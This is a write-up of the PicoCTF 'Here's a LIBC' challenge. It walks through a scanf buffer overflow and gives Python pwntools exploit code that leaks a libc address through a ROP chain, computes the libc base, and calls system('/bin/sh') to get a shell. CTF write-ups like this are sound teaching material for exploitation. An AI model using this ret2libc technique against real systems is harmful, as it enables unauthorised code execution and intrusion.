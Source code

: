 << [Back to Home](https://papadoxie.github.io)

# Here's a LIBC
## Write-up of the PicoCTF Binary Exploitation Challenge

<img	src="Challenge Description.png"
		alt="Challenge Description"
/>

## Setup

3 files are provided to us for the challenge and the address
to the server is also provided.

Lets download the files and try to run the binary

<img	src="Setup0.png"
		alt="Challenge Description"
/>

We get a crash
This occurs because our linker is a newer version than the libc provided

<img	src="Setup1.png"
		alt="Challenge Description"
/>

We can fix this using pwninit which will automatically take care of this

<img	src="Setup2.png"
		alt="Challenge Description"
/>

This fixed the problem

<img	src="Setup3.png"
		alt="Challenge Description"
/>


## Analysis

Lets open the binary in Ghidra and take a look at whats going on

<img	src="Analysis0.png"
		alt="Challenge Description"
/>

There is no input being taken in the main function but we see another function
Lets check it out

<img	src="Analysis1.png"
		alt="Challenge Description"
/>

This looks like what we are looking for  
I have retyped some variables so its easier to understand  
As we can see there is no bound checking on the scanf input  
We can easily overflow the buffer since scanf will take an input until it encounters a newline

<img	src="Analysis2.png"
		alt="Challenge Description"
/>

Sure enough, we get a segmentation fault and the program crashes  

Lets check the protections on the binaries

<img	src="Analysis3.png"
		alt="Challenge Description"
/>

The stack is not executable so we can't execute shellcode pushed onto it  
PIE is off for vuln meaning addresses won't change for the binary on each execution  
This means we can easily leak an address from libc and use it to return to libc


## Exploitation

Lets open the binary in GDB and find exactly where we overwrite RIP

<img	src="Exploitation0.png"
		alt="Challenge Description"
/>

<img	src="Exploitation1.png"
		alt="Challenge Description"
/>

Now we need to find some ROP Gadgets to leak the address of a function in libc  
We can use pwntools ROPgadget for this  
  
We will use the puts() function to print out an address in libc so we also need the address of puts@plt
We can leak the address of any function inside libc. I have chosen setbuf()

To print the address of setbuf() in libc we need to pass the address of setbuf@got to puts()  
For this we will need to find a ROP Gadget that will allow us to modify RDI

<img	src="Exploitation2.png"
		alt="Challenge Description"
/>

<img	src="Exploitation3.png"
		alt="Challenge Description"
/>

<img	src="Exploitation4.png"
		alt="Challenge Description"
/>

Now that we have found the relevant addresses we can leak the address of setbuf() inside libc

```py
import pwnlib.util.packing as pack
from pwn import log, process, remote

p = process("./vuln")  # Local binary

padding = b"A" * 136
pop_rdi = 0x400913  # ROP Gadget for popping rdi
setbuf_at_got = 0x601028  # Address of setbuf() in GOT
puts_at_plt = 0x400540  # Address of puts() in PLT
main = 0x400771  # Address of main for returning safely after leaking setbuf() address in libc

# ? Craft the payload to leak address of setbuf in libc
payload = padding  # Pad the stack until the stored RIP
payload += pack.p64(pop_rdi)  # Set the address of setbuf() in GOT as the first argument of puts()
payload += pack.p64(setbuf_at_got)  # This will be the first argument of puts()
payload += pack.p64(puts_at_plt)  # Call puts()
payload += pack.p64(main)  # Return to main() so the program doesnt crash

# ? Send the payload
p.sendline(payload)
p.recvline()  # Discard data we dont need
p.recvline()  # Discard data we dont need
leak = pack.u64(p.recvline().strip().ljust(8, b"\x00"))  # Format the address of setbuf() properly
log.info(f"Leaked setbuf Address -> {hex(leak)}")
```

<img	src="Exploitation5.png"
		alt="Challenge Description"
/>

Now that we have an address inside libc we can calculate the base address of libc itself  
First lets figure out the offset of setbuf() from the base address of libc

<img	src="Exploitation6.png"
		alt="Challenge Description"
/>

Now we can add this to our exploit

```py
setbuf_offset = 0x88540  # Static offset of setbuf() in libc
libc_base = leak - setbuf_offset  # Calculate base address of libc
log.info(f"libc Base Address -> {hex(libc_base)}")
```

To get a shell on the target system we will use the system() function which is also inside libc  
Lets find its address

<img	src="Exploitation7.png"
		alt="Challenge Description"
/>

```py
system_offset = 0x4F4E0  # Static offset of system() in libc
libc_system = libc_base + system_offset # Calculate the actual address of system() in libc
log.info(f"system Address -> {hex(libc_system)}")
```

We can pass "/bin/sh" to system() to get a shell  
As this string is already present inside libc we dont need to put it on the stack ourselves  
We can simply use the one already available to us  
Lets find its address 

<img	src="Exploitation8.png"
		alt="Challenge Description"
/>

```py
binsh_offset = 0x1B40FA  # Static offset of /bin/sh string in libc
libc_binsh = libc_base + binsh_offset
log.info(f"/bin/sh Address -> {hex(libc_binsh)}")
```

Now that we have all the relevant addresses we can finally craft our final payload  
Here is the remaining exploit

```py
# ? Craft the payload to call system("/bin/sh")
payload = padding  # Pad the stack until the stored RIP
payload += pack.p64(pop_rdi)  # Set the address of the string /bin/sh as the first argument of system()
payload += pack.p64(libc_binsh)  # This will be the first argument of system()
payload += pack.p64(ret)  # Align the stack to 16 bytes otherwise system() will crash
payload += pack.p64(libc_system)  # Call system()

# ? Send the payload
p.sendline(payload)

# ? Start an interactive session
p.interactive()
```

Notice we added another ROP Gadget (ret). This is to align the stack for the call to system()  
If the stack isn't aligned then we will get a segmentation fault and the program will crash  
Lets run the exploit script against the target server now

<img	src="Exploitation9.png"
		alt="Challenge Description"
/>

Nice. It works  
Now we can grab the flag

<img	src="Exploitation10.png"
		alt="Challenge Description"
/>